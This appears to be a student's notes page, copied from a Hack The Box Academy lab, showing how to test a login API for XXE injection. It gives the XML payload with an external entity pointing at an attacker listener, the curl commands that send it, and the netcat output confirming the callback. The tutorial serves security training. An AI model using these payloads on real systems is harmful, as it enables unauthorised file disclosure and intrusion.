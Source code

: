 ```yaml
---
sticker: emoji//1f480
---
```

XML External Entity (XXE) Injection vulnerabilities occur when XML data is taken from a user-controlled input without properly sanitizing or safely parsing it, which may allow us to use XML features to perform malicious actions. XXE vulnerabilities can cause considerable damage to a web application and its back-end server, from disclosing sensitive files to shutting the back-end server down. Our [Web Attacks](https://academy.hackthebox.com/module/details/134) module covers XXE Injection vulnerabilities in detail. It should be noted that XXE vulnerabilities affect web applications and APIs alike.

Let us assess together an API that is vulnerable to XXE Injection.

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along.

Suppose we are assessing such an application residing in `http://<TARGET IP>:3001`.

By the time we browse `http://<TARGET IP>:3001`, we come across an authentication page.

Run Burp Suite as follows.

```shell-session
smoothment@htb[/htb]$ burpsuite
```

Activate burp suite's proxy (_Intercept On_) and configure your browser to go through it.

Now let us try authenticating. We should see the below inside Burp Suite's proxy.

![image](https://academy.hackthebox.com/storage/modules/160/11.png)


```http
POST /api/login/ HTTP/1.1
Host: <TARGET IP>:3001
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 111
Origin: http://<TARGET IP>:3001
DNT: 1
Connection: close
Referer: http://<TARGET IP>:3001/
Sec-GPC: 1

<?xml version="1.0" encoding="UTF-8"?><root><email>test@test.com</email><password>P@ssw0rd123</password></root>
```

- We notice that an API is handling the user authentication functionality of the application.
- User authentication is generating XML data.

Let us try crafting an exploit to read internal files such as _/etc/passwd_ on the server.

First, we will need to append a DOCTYPE to this request.

What is a DOCTYPE?

DTD stands for Document Type Definition. A DTD defines the structure and the legal elements and attributes of an XML document. A DOCTYPE declaration can also be used to define special characters or strings used in the document. The DTD is declared within the optional DOCTYPE element at the start of the XML document. Internal DTDs exist, but DTDs can be loaded from an external resource (external DTD).

Our current payload is:


```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]>
<root>
<email>test@test.com</email>
<password>P@ssw0rd123</password>
</root>
```

We defined a DTD called _pwn_, and inside of that, we have an `ENTITY`. We may also define custom entities (i.e., XML variables) in XML DTDs to allow refactoring of variables and reduce repetitive data. This can be done using the ENTITY keyword, followed by the `ENTITY` name and its value.

We have called our external entity _somename_, and it will use the SYSTEM keyword, which must have the value of a URL, or we can try using a URI scheme/protocol such as `file://` to call internal files.

Let us set up a Netcat listener as follows.


```shell-session
smoothment@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
```

Now let us make an API call containing the payload we crafted above.


```shell-session
smoothment@htb[/htb]$ curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>test@test.com</email><password>P@ssw0rd123</password></root>'
<p>Sorry, we cannot find a account with <b></b> email.</p>
```

We notice no connection being made to our listener. This is because we have defined our external entity, but we haven't tried to use it. We can do that as follows.


```shell-session
smoothment@htb[/htb]$ curl -X POST http://<TARGET IP>:3001/api/login -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]><root><email>&somename;</email><password>P@ssw0rd123</password></root>'

```

After the call to the API, you will notice a connection being made to the listener.

```shell-session
smoothment@htb[/htb]$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [<VPN/TUN Adapter IP>] from (UNKNOWN) [<TARGET IP>] 54984
GET / HTTP/1.0
Host: <VPN/TUN Adapter IP>:4444
Connection: close
```

The API is vulnerable to XXE Injection.

# Question
---
![](CYBERSECURITY/IMAGES/Pasted%20image%2020250219172306.png)


